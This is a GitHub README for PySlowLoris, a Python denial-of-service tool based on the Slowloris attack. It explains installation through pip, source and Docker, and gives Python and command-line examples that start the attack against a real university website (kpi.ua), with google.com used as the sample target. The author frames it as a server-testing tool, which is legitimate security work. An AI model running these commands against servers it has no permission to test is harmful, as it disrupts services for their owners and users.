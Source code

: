 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-2.7-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![Requirements Status](https://requires.io/github/maxkrivich/SlowLoris/requirements.svg?branch=master)](https://requires.io/github/maxkrivich/SlowLoris/requirements/?branch=master)
[![Code Health](https://landscape.io/github/maxkrivich/SlowLoris/master/landscape.svg?style=flat)](https://landscape.io/github/maxkrivich/SlowLoris/master)
[![PyPI version](https://badge.fury.io/py/PySlowLoris.svg)](https://badge.fury.io/py/PySlowLoris)
[![Help Contribute to Open Source](https://www.codetriage.com/maxkrivich/slowloris/badges/users.svg)](https://www.codetriage.com/maxkrivich/slowloris)

This repository was created for testing Slow Loris vulnerability on different web servers. SL based on keeping alive open connection as long as possible and sending some trash headers to the server. If you are interested what I'm trying doing here, please join my team and let's do fun together. Please DO NOT use this in the real attacks on the servers.

The main reason why I'm writing this module it is to create the easy tool for the fast check a small personal or corporate web server what based on Apache and etc. Also, last but not least reason is to improve my skills in this sphere.

More information you can find [here].

### Installation

#### PyPi

To install PySlowLoris, run this command in your terminal:

```sh
$ pip install pyslowloris
```
This is the preferred method to install PySlowLoris, as it will always install the most recent stable release.


#### Source files

In case you downloaded or cloned the source code from [GitHub](https://github.com/maxkrivich/SlowLoris) or your own fork, you can run the following to install cameo for development:

```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ vitualenv --python=python[version] venv
$ source venv/bin/active
$ pip install --editable .
```

#### Docker Hub

Pulling image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run container:

```sh
$ docker pull maxkivich/pyslowloris
$ docker run --rm -it maxkivich/pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run container: 

```sh
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

**Note:** *Don't forget about 'sudo'!*

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] [-u URL] [-s SOCKET_COUNT] [-p PORT]

Small and simple tool for testing Slow Loris vulnerability

optional arguments:
  -h                show this help message and exit
  -u URL            link to the web server (http://google.com) - str
  -s SOCKET_COUNT   maximum count of created connection (default value 300) - int
  -p PORT           port what will be used - int

```

#### Using PySlowLoris from code

Here are some example to start attack from Python code

```py
import time
from PySlowLoris import TargetInfo, SlowLorisAttack

target = TargetInfo(url="http://kpi.ua/", port=80)
target.get_info()
slowloris = SlowLorisAttack(target)
slowloris.start_attack() # stop_attack()

while True:
    time.sleep(1)

```

#### Using PySlowLoris from terminal

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -s 300
```
###### stop execution: Ctrl + C


### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact [me].


### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017 Maxim Krivich

[maxkrivich.github.io](https://maxkrivich.github.io/)



[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
[me]: <https://maxkrivich.github.io>
